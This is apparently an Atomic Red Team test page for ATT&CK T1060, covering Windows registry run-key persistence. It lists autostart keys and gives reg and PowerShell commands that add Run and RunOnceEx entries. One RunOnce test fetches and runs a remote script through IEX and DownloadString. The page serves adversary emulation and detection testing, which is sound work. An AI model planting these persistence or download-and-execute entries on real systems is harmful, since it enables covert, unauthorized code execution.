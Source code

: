# T1060 - Registry Run Keys / Startup Folder
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1060)
<blockquote>Adding an entry to the "run keys" in the Registry or startup folder will cause the program referenced to be executed when a user logs in. (Citation: Microsoft Run Key) These programs will be executed under the context of the user and will have the account's associated permissions level.

The following run keys are created by default on Windows systems:
* <code>HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run</code>
* <code>HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce</code>
* <code>HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run</code>
* <code>HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce</code>

The <code>HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnceEx</code> is also available but is not created by default on Windows Vista and newer. Registry run key entries can reference programs directly or list them as a dependency. (Citation: Microsoft RunOnceEx APR 2018) For example, it is possible to load a DLL at logon using a "Depend" key with RunOnceEx: <code>reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend /v 1 /d "C:\temp\evil[.]dll"</code> (Citation: Oddvar Moe RunOnceEx Mar 2018)

The following Registry keys can be used to set startup folder items for persistence:
* <code>HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders</code>
* <code>HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders</code>
* <code>HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders</code>
* <code>HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders</code>

The following Registry keys can control automatic startup of services during boot:
* <code>HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce</code>
* <code>HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce</code>
* <code>HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices</code>
* <code>HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices</code>

Using policy settings to specify startup programs creates corresponding values in either of two Registry keys:
* <code>HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run</code>
* <code>HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run</code>

The Winlogon key controls actions that occur when a user logs on to a computer running Windows 7. Most of these actions are under the control of the operating system, but you can also add custom actions here. The <code>HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit</code> and <code>HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell</code> subkeys can automatically launch programs.

Programs listed in the load value of the registry key <code>HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windows</code> run when any user logs on.

By default, the multistring BootExecute value of the registry key <code>HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager</code> is set to autocheck autochk *. This value causes Windows, at startup, to check the file-system integrity of the hard disks if the system has been shut down abnormally. Adversaries can add other programs or processes to this registry value which will automatically launch at boot.


Adversaries can use these configuration locations to execute malware, such as remote access tools, to maintain persistence through system reboots. Adversaries may also use [Masquerading](https://attack.mitre.org/techniques/T1036) to make the Registry entries look as if they are associated with legitimate programs.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Reg Key Run](#atomic-test-1---reg-key-run)

- [Atomic Test #2 - Reg Key RunOnce](#atomic-test-2---reg-key-runonce)

- [Atomic Test #3 - PowerShell Registry RunOnce](#atomic-test-3---powershell-registry-runonce)


<br/>

## Atomic Test #1 - Reg Key Run
Run Key Persistence

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| command_to_execute | Thing to Run | Path | C:&#92;Path&#92;AtomicRedTeam.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "Atomic Red Team" /t REG_SZ /F /D "#{command_to_execute}"
```

#### Cleanup Commands:
```cmd
REG DELETE "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "Atomic Red Team" /f
```





<br/>
<br/>

## Atomic Test #2 - Reg Key RunOnce
RunOnce Key Persistence

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| thing_to_execute | Thing to Run | Path | C:&#92;Path&#92;AtomicRedTeam.dll|


#### Attack Commands: Run with `command_prompt`! 


```cmd
REG ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend /v 1 /d "#{thing_to_execute}"
```

#### Cleanup Commands:
```cmd
REG DELETE HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend /v 1 /f
```





<br/>
<br/>

## Atomic Test #3 - PowerShell Registry RunOnce
RunOnce Key Persistence via PowerShell
Upon execution, a new entry will be added to the runonce item in the registry

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| thing_to_execute | Thing to Run | Path | powershell.exe|
| reg_key_path | Path to registry key to update | Path | HKLM:&#92;Software&#92;Microsoft&#92;Windows&#92;CurrentVersion&#92;RunOnce|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$RunOnceKey = "#{reg_key_path}"
set-itemproperty $RunOnceKey "NextRun" '#{thing_to_execute} "IEX (New-Object Net.WebClient).DownloadString(`"https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Misc/Discovery.bat`")"'
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path #{reg_key_path} -Name "NextRun" -Force -ErrorAction Ignore
```





<br/>
